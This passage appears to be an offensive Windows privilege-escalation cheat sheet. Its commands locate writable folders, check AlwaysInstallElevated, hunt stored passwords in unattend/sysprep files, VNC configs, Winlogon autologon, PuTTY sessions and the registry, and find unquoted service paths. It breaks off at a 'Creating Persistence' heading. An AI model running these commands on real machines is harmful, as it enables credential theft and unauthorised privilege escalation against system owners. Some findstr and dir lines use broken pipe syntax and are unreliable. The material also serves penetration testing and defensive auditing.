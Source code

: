 ### Find File/Folder Permissions Explicitly Set for a Given User

```csharp
icacls.exe C:\folder /findsid userName-or-*sid /t
//look for (F)ull, (M)odify, (W)rite
```

### AlwaysInstallElevated MSI

```csharp
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Stored Credentials: Windows

```csharp
c:\unattend.xml
c:\sysprep.inf
c:\sysprep\sysprep.xml
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
dir /s *cred* == *pass* == *.conf

# Windows Autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Registry
reg query HKLM /f password /t REG_SZ /s 
reg query HKCU /f password /t REG_SZ /s
```

### Unquoted Service Path

```csharp
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

### Creating Persistence
